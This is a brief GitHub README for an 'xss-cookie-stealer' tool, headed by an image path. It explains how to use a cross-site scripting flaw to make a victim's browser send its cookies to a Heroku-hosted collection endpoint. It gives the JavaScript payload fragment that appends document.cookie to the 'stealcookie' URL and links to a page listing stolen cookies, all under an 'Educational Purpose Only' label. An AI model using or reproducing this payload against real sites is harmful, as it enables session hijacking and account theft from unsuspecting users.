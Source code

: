 # xss-cookie-stealer
Collects user's cookie with XSS vulnerability.

## Demo
[Click Here](https://inwza007.herokuapp.com/)

## Usage
*Educational Purpose Only*
Use Cross Site Scripting vulnerability to force user make GET request to ```"https://inwza007.herokuapp.com/stealcookie?c="+document.cookie```

[See all stolen cookies](https://inwza007.herokuapp.com/cookies)

## Author
[Nisaruj R.](https://github.com/nisaruj)
